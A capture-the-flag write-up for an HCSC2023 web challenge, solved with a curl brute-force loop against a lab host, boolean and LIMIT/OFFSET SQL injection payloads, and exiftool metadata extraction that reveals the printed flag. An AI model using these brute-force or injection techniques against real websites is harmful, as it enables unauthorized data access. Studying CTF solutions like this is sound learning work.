





# Checking the site

Visiting the site reveals the following form.



# Form

Sending the form with the default `Warner` reveals an image.



# Brute forcing

Notice that the form gives result after 3 letters and case insensitive. This can be easily bruteforced.

```bash
for x in {a..z}; do for y in {a..z}; do for z in {a..z}; do curl -d "felado=$x$y$z" -X POST http://10.10.8.11:8666/ 2> /dev/null | grep img; done; done; done
```


# SQLi

Alternatively notice that the form also vulnerable to SQL injects. Just enter a `"`, like below. The former gives the Warner Bros letter, the latter not.

```
%' AND 1=1 #
%' AND 1=2 #
```

The images can be gathered 1 by 1.

```
' LIMIT 1 OFFSET 0 #
' LIMIT 1 OFFSET 1 #
' LIMIT 1 OFFSET 1 #
' LIMIT 1 OFFSET 3 #
```

There are no more images left.

# Flag image

On the image with Zabos Csokolade, they hand over the flag (`flag-et szeretnénk átnyújtani`), but there is no flag visible.



# Metadata

The flag is in the `Artist` metadata.

```bash
exiftool 477574637.png
```




# Flag
`HCSC2023{D1ana_I_am_crazy_l0ving_y0u}`